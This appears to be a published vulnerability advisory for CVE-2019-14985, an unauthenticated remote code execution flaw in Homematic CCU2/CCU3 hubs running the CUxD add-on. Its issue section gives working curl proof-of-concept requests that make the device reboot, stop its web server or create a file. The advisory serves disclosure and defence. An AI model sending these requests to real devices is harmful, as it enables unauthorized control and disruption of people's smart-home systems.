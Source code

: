 ```yaml
---
layout: post
title:  "CVE-2019-14985 eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage"
date:   2019-08-13 20:15:05 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14985
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Vendor patch: N.A.
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 02.04.2019
  - Developer of 'CUxD' AddOn confirmation: 04.04.2019
  - 'CUxD' AddOn patch: N.A.
  - Affected 'CUxD' AddOn version: 2.3.4 and prior
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The CUxD device Exec serves as a replacement for the undocumented and not very stable "system.exec()" function of the CCU, which can be used to start arbitrary processes on the Homematic central.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www and the internal device usage, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in CCU firmware, if 'CUxD' AddOn is installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented URL ending with ".exe" if lighttpd proxy.conf is not protected against remote call of "*.exe" URLs:<br>

```
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```
2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984)<br>
or other popular AddOns like:<br>
[HM-Print](https://github.com/litti/hm-print/issues/4) published in [CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)<br>
[HM-Email](https://github.com/jens-maus/hm_email/issues/11) published in [CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)<br>
[Script Parser](https://github.com/litti/scriptparser/issues/4) published in [CVE-2019-18937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18937)<br>
Those CVEs are combined with this attack vector:

```
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```

# CVE

[CVE-2019-14985](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14985)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
